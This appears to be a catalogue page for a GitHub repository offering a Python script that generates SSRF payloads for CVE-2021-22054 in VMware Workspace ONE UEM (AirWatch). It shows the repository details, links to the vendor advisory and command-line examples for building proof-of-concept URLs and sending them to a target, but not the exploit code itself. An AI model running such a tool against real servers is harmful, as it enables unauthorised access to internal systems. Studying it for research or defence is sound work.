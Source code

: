 # CVE-2021-22054

Generate SSRF payloads

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/MKSx](https://github.com/MKSx) |
| Url      | [https://github.com/MKSx/CVE-2021-22054](https://github.com/MKSx/CVE-2021-22054)                                               |
| Stars    | 2                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* airwatch* cve* cve-2021-22054* python* vmware

</details>

## Readme

# CVE-2021-22054
Generate SSRF payloads

#### References
https://blog.assetnote.io/2022/04/27/advisory-vmware-workspace-one-uem/

https://blog.assetnote.io/2022/04/27/vmware-workspace-one-uem-ssrf/

#### Examples
```bash

# generate POC
python3 ssrf.py --url https://target.com --url https://example.com --airwatch
python3 ssrf.py --url https://target.com --url https://example.com

# generate PPOC and send request
python3 ssrf.py --url https://target.com --url https://example.com --airwatch --request --proxy http://127.0.0.1:8080
python3 ssrf.py --url https://target.com --url https://example.com --airwatch --request --method POST --data '{"a":1}' -H 'Content-Type: application/json" --debug-headers
```

![image](https://user-images.githubusercontent.com/17793927/171933588-1b8d92f4-c751-40ca-a6bc-ad2102022bcf.png)

![image](https://user-images.githubusercontent.com/17793927/171933638-a0be0782-32cc-41db-b892-b49a9adcd574.png)



## Get the content

```
git clone https://github.com/MKSx/CVE-2021-22054
cd CVE-2021-22054
```

{% embed url="https://github.com/MKSx/CVE-2021-22054" %}

<figure><img src="https://avatars.githubusercontent.com/u/17793927?v=4" alt=""><figcaption><p>MKSx</p></figcaption></figure>
